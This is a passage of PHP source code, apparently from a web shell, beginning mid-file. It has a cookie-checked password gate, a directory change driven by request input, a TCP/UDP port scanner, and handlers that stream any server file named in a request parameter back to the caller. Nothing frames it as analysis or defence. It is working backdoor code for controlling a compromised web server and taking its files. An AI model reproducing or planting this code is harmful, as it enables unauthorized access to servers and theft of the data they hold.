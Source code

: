 if(empty($_COOKIE['passw']) || $_COOKIE['passw']!=md5($login_password))die("&lt;html&gt;&lt;body&gt;&lt;table&gt;&lt;form method=post&gt;&lt;tr&gt;&lt;td&gt;Password:&lt;/td&gt;&lt;td&gt;&lt;input type=hidden name=seC value=about&gt;&lt;input type=password name=fpassw&gt;&lt;/td&gt;&lt;/tr&gt;&lt;tr&gt;&lt;td&gt;&lt;/td&gt;&lt;td&gt;&lt;input type=submit value=login&gt;&lt;/td&gt;&lt;/tr&gt;&lt;/form&gt;&lt;/table&gt;&lt;/body&gt;&lt;/html&gt;");
}
if (!empty($_REQUEST['workingdiR'])) chdir($_REQUEST['workingdiR']);
function checkthisporT($ip,$port,$timeout,$type=0){
if(!$type){
$scan=@fsockopen($ip,$port,$n,$s,$timeout);
if($scan){fclose($scan);return 1;}
}
elseif(function_exists('socket_set_timeout')){
$scan=@fsockopen("udp://".$ip,$port);
if($scan){
socket_set_timeout($scan,$timeout);
@fwrite($scan,"\x00");
$s=time();
fread($scan,1);
if((time()-$s)&gt;=$timeout){fclose($scan);return 1;}
}
}
return 0;
}
if (!function_exists("file_get_contents")){
function file_get_contents($addr){
$a = fopen($addr,"r");
$tmp = fread($a,filesize($a));
fclose($a);
if($a)return $tmp;
}
}
if (!function_exists("file_put_contents")){
function file_put_contents($addr,$con){
$a = fopen($addr,"w");
if(!$a)return 0;
fwrite($a,$con);
fclose($a);
return strlen($con);
}
}
function flusheR(){
flush();@ob_flush();
}
if (!empty($_REQUEST['downloaD'])){
@ob_clean();
$dl=$_REQUEST['downloaD'];
$con=file_get_contents($dl);
header("Content-type: application/octet-stream");
header("Content-disposition: attachment; filename=\"$dl\";");
header("Content-length: ".strlen($con));
echo $con;
exit;
}
if (!empty($_REQUEST['imagE'])){
$img=$_REQUEST['imagE'];
header("Content-type: imagE/gif");
header("Content-length: ".filesize($img));
header("Last-Modified: ".date("r",filemtime($img)));
echo file_get_contents($img);
exit;
}
@header("Cache-Control: no-cache, must-revalidate");
@header("Expires: Mon, 7 Aug 1987 05:00:00 GMT");